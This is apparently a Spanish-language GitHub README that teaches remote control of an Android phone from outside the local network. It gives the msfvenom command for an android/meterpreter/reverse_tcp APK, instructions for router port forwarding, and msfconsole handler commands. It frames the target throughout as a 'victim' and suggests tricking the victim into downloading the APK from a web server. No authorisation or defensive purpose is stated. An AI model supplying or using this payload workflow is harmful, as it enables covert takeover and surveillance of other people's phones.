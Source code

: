 # Msfvenom fuera de Red

![Informatica](Img/logo.jpg)

<br>

Muchos deebn saber como controlar un dispositivo con Msfvenom dentro de red pero algunos no saben
como controlar un dispositivo fuera de nuestra red local. Aqui te enseñaremos como controlar un dispositivo
con Msfvenom fuera de nuestra red local.

Primero iremos a nuestro kali linux y crearemos una aplicacion maliciosa con msfvenom y pondremos
nuestra IP publica:

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=< TU IP PUBLICA > LPORT=4444 -o
android.apk
```

Luego iremos a nuestro navegador y escribiremos la direccion de nuestro router, en la mayoria es
192.168.1.1 y para iniciar secion por defecto admin.

Luego buscaremos donde diga reenvio de puetos:

<br>

![Informatica](Img/puertos.jpg)

<br>

abriremos el puerto 4444 y pondremos la IP de nuestro Kali Linux.

Ahora abriremos una nueva terminal en Kali Linux y escribiremos msfconsole luego ingresaremos los
siguientes comandos:

```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST IP kali linux
set LPORT 4444
exploit
```

<br>

![Informatica](Img/exploit.jpg)

<br>

Luego instalaremos la aplicacion maliciosa que creamos en nuestro celular víctima y la abriremos. Ahora
iremos a nuestro Kali Linux y veremos que tenermos una seción de meterpreter, ya estamos dentro de
nuestro celular víctima. Para ayudarnos ingresaremos help y podemos ver una serie de informacion de lo que
podemos hacer dentro de nuestro celular víctima.

<br>

![Informatica](Img/help.jpg)

<br>

**NOTA:** Pueden subir la aplicacion maliciosa a un servidor web como apache2, y hacer que la victima
descargue la aplicacion desde el servidor web.